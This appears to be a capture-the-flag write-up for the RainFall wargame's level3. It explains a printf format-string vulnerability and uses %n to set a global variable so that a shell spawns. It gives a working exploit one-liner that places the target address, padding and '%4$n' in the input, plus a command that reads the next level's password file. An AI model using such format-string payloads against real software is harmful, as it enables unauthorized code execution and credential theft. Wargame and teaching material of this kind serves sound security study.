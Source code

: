 We see that main call a function v and that we have to find the right conditions to set the variable m to 0x40 to activate a shell.

`fgets()` mitigates the problem we had before with `gets()` by specifying the maximum string length.
The function `printf()` fetches the arguments from the stack. Unless the stack is marked with a
boundary, `printf()` does not know that it runs out of the arguments that are provided to
it. In a miss-match case, it will fetch some data that do not belong to this function call.
The function maintains an initial stack pointer, so it knows the location of the parameters in the stack.

```
0x080484d5      call printf        ; sym.imp.printf ; int printf(const char *format)
0x080484da      mov eax, dword [m] ; 0x804988c
0x080484df      cmp eax, 0x40      ; 64
```
We can see that the address we want to redirect is `0x804988c` which is the address of the m variable that need to have 64 bytes as a value to pass the cmp.
We can do this with the `%n` : it's a special format specifier which instead of printing something causes `printf()` to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by `printf()` before the occurrence of `%n`.
It expects to meet an address that is why we can't directly act on the variables, trying `%4$n` to aim 4 bytes after.
```
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'" && cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```
